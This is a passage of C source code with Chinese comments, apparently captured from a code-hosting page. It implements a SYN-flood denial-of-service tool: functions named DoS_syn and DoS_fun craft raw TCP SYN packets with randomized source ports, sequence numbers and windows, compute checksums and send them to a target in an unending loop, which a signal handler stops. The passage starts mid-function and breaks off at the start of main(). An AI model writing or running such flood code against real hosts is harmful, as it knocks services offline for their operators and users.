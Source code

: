 	ip.s_addr = dest;    
	dosseg.iph.ip_dst = ip;
	
 	dosseg.tcph.source=htons(myrandom(0,65535));
	dosseg.tcph.dest=htons(dest_port);
	dosseg.tcph.seq = htonl ((unsigned long) myrandom(0, 65535)); 
	dosseg.tcph.ack_seq = htonl((unsigned long)myrandom(0, 65535));  
	dosseg.tcph.syn = 1;
	dosseg.tcph.doff=5;
	dosseg.tcph.window = htons (myrandom(0, 65535));  
	dosseg.tcph.check = 0; 
	
	/* 填写发送目的地址部分 */
	to.sin_family =  AF_INET;  
	to.sin_addr.s_addr = dest;
	to.sin_port = htons(dest_port);
	
	struct  pseudo_header psh;
	psh.source_address = dosseg.iph.ip_src.s_addr;
	psh.dest_address =dosseg.iph.ip_dst.s_addr;
	psh.placeholder = 0;
	psh.protocol = IPPROTO_TCP;//TCP协议号
	psh.tcp_length = htons(sizeof(struct tcphdr));//TCP首部长度
	memcpy(&psh.tcp , &dosseg.tcph , sizeof (struct tcphdr));
	dosseg.tcph.check = DoS_cksum( (unsigned short*) &psh , sizeof (struct pseudo_header));
	dosseg.iph.ip_sum = DoS_cksum ((u16 *) &dosseg.iph, sizeof(dosseg.iph)+sizeof(dosseg.tcph));
	
	/* 发送数据 */
	int ret = sendto (rawsock, 
			&dosseg, 
			4 * dosseg.iph.ip_hl + sizeof (struct tcphdr) , 
			0, 
			(struct sockaddr *) &to, 
			sizeof (struct sockaddr));  	
	if(ret == -1){
		printf("sendto failed:errno=%d, errmsg=%s\n", errno, strerror(errno));
		return;
	}else{
		printf("send syn ok\n");
	}
}

static void
DoS_fun (unsigned long ip)
{  
	while(alive)
	{
		DoS_syn();
	}

}

/* 信号处理函数,设置退出变量alive */
static void 
DoS_sig(int signo)
{
	alive = 0;
}



int main(int argc, char *argv[])
{
	struct hostent * host = NULL;
	struct protoent *protocol = NULL;
	char protoname[]= "icmp";

	int i = 0;